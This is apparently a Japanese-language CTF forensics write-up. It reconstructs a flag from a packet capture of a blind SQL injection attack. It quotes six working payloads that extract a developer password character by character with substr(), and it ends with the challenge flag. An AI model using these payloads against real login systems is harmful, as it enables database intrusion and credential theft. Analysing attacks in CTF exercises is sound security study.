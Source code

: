 # Pain in the ass:Forensics:181pts
It looks like someone dumped our database. Please help us know what has been leaked ...  
[pain-in-the-ass.pcapng](pain-in-the-ass.pcapng)  

# Solution
pcapngなのでWiresharkで解析するが何も見当たらない。  
どうやらSQLインジェクションを試しているようだが、ペイロードもアルファベット順に試行されており、ユーザーネームもd4rk2phiと変わった点は見られない。  
stringsを行うと以下のような記述が見られた。  
```text
th3_fl4g_1s_n0t_h3r3
h3r3_1s_n0t_th3_fl4g
l00k1ng_f0r_34sy_p01nts
3rr0r_b4s3d_1s_s0_34syC
```
fl4gやb4s3dで文字列検索してやるとその上の部分のペイロードに含まれている一文字が以下のようになっていた。  
```text
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),1,1) = 's' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),2,1) = 'h' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),3,1) = 'k' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),4,1) = 'C' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),5,1) = 'T' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),6,1) = 'F' and '1';
```
これがflagであった。  

## shkCTF{4lm0st_h1dd3n_3xtr4ct10n_0e18e336adc8236a0452cd570f74542}